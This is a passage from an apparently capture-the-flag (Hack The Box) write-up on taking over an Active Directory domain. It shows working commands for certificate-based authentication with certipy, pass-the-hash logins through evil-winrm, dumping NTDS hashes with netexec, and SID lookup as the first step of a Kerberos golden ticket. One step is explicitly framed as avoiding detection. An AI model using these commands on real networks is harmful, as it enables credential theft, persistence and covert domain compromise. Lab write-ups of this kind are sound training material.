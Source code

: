 
#### Reverting the ca_operator's UPN: {#reverting-the-ca-operator-s-upn}

-   **Now we change back the** `userPrincipalName` **of** `ca_operator` **to the original**  `userPrincipalName ca_operator@CERTIFIED.HTB`:
    -   `certipy-ad account update -username management_svc@$domain -hashes :$svcHash -user ca_operator -upn ca_operator@$domain`
    -   {{< figure src="/ox-hugo/2024-11-06-133034_.png" >}}
    -   +Why+: This avoids detection by reverting ca_operator to its default identity.


#### Authenticating with the certificate to retrieve the NT hash of the administrator: {#authenticating-with-the-certificate-to-retrieve-the-nt-hash-of-the-administrator}

-   **Now we authenticate with the certificate, to receive the NT hash of the Administrator user**:
    -   `certipy-ad auth -pfx administrator.pfx -domain $domain`
    -   Hash retrieved.
        -   {{< figure src="/ox-hugo/2024-11-06-133159_.png" >}}
    -   +Note+: We add `-domain` to the command because the certificate is set to `administrator` without a domain specified.

-   **Verify the hash works**:
    -   `evil-winrm -i $box -u $user -H $hash`
    -   {{< figure src="/ox-hugo/2024-11-06-133338_.png" >}}

-   **Grab our root flag**:
    -   {{< figure src="/ox-hugo/2024-11-06-133454_.png" >}}


## 5. Persistence: {#4-dot-persistence}


### Dumping NTDS.dit/DC-SYNC attack: {#dumping-ntds-dot-dit-dc-sync-attack}

-   **Perform DC-Sync attack using netexec**:
    -   `netexec smb $box -u $user -H $hash -M ntdsutil`
    -   {{< figure src="/ox-hugo/2024-11-06-134536_.png" >}}

-   **Extract all hashes from netexec**
    -   `for file in /home/kali/.nxc/logs/*.ntds; do cat "$file" | cut -d ':' -f1,2,4 --output-delimiter=' ' | awk '{print $3, $2, $1}'; printf '\n'; done`
    -   {{< figure src="/ox-hugo/2024-11-06-134622_.png" >}}


### Creating a Kerberos Golden Ticket: {#creating-a-kerberos-golden-ticket}

-   **Using** `impacket-lookupsid` **to get the Search for the Domain SID**:
    -   `impacket-lookupsid $domain/$user@$machine.$domain -domain-sids -k -no-pass`
    -   {{< figure src="/ox-hugo/2024-11-06-134850_.png" >}}

-   **Sync our clock to the host using ntupdate**:
    -   `sudo ntpdate -s $domain`
